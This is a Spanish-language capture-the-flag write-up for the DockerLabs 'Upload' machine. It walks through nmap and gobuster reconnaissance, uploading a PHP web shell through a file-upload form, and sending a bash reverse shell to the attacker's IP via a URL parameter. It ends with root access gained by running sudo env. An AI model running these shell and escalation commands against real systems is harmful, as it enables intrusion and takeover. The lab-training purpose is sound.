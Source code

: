# [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/50b99ded-2fda-421a-aa36-022f3ee61bbf)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e1845ad2-b086-49ea-97c4-8c59c27221e2)

<br>

Lo que debemos hacer ahora es ver si podemos el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/bef54253-3e1a-4c14-8ad5-78ed616d8169)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e3bb76bd-783b-4aee-ae92-0d3e57220036)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3362fa1e-967c-40b9-9158-1dcf97456867)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/9617187a-0a47-4504-a647-45f4bb053150)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/12059ea4-596f-44ce-a2e9-f9925a576091)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/de8139bf-761a-4e44-9793-702d6adc7725)

<br>
<br>

## Escala de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/8cff1944-b7af-49b1-bab7-a72271f84825)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/07208f3b-6bda-4f5e-a1b5-a1d02b3fe87c)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/89e33e11-4355-4083-aecd-b20aa85bd135)
<br>

Y listo ya seríamos root!!

